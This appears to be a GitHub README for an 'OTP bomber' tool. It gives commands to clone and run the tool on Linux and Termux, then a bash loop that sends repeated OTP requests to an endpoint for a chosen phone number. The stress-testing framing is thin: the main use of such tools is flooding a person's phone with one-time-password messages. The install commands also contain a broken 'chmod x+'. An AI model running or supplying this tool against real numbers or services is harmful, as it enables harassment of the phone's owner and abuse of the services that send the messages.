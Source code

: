 ### For Linux
1. **Update and Upgrade System Packages:**

   ```sh
   sudo apt update
   sudo apt upgrade -y
   sudo apt install -y git
   git clone https://github.com/MrTusarRX/otp-boomber.git
   cd otp-boomber 
   chmod x+ Linux.sh
   ./Linux.sh


## End
### For Linux
2. **Update and Upgrade System Packages:**

   ```sh
   pkg update
   pkg upgrade -y
   pkg install -y git
   git clone https://github.com/MrTusarRX/otp-boomber.git
   cd otp-boomber 
   chmod x+ Termux.sh
   ./Termux.sh


## End

## OTP Bomb

### Overview

An **OTP Bomb** is a tool designed to generate and send a high volume of OTP (One-Time Password) requests to a specified target. This is generally used for testing purposes, such as stress testing systems to evaluate their resilience and handling of multiple OTP requests. It is crucial to note that using an OTP bomb for unauthorized purposes or in a way that disrupts services is illegal and unethical.

### Purpose

The OTP Bomb tool is primarily used in scenarios where:
- **Stress Testing**: To test how well a system can handle a large number of OTP requests.
- **Security Testing**: To evaluate the robustness of OTP systems and their response to high-volume attacks.
- **Development**: For developers to simulate scenarios involving multiple OTP requests to test their applications.

### How It Works

1. **Setup**: Configure the OTP Bomb with the target system's endpoint that handles OTP requests.
2. **Input**: Provide necessary details such as phone number or email address where OTPs will be sent.
3. **Execution**: The tool starts sending multiple OTP requests at a specified interval.
4. **Monitoring**: Monitor the responses to understand how the target system handles the load.

### Example Usage

Here’s a simplified example of how an OTP Bomb might be used in a controlled environment:

```bash
#!/bin/bash

# Example script for sending OTP requests

# Target URL and phone number
TARGET_URL="http://example.com/otp"
PHONE_NUMBER="1234567890"

# Number of requests and interval
NUM_REQUESTS=100
INTERVAL=5

for ((i=1; i<=NUM_REQUESTS; i++)); do
  curl "${TARGET_URL}?number=${PHONE_NUMBER}" > /dev/null
  echo "Request $i sent. Waiting for $INTERVAL seconds..."
  sleep "$INTERVAL"
done







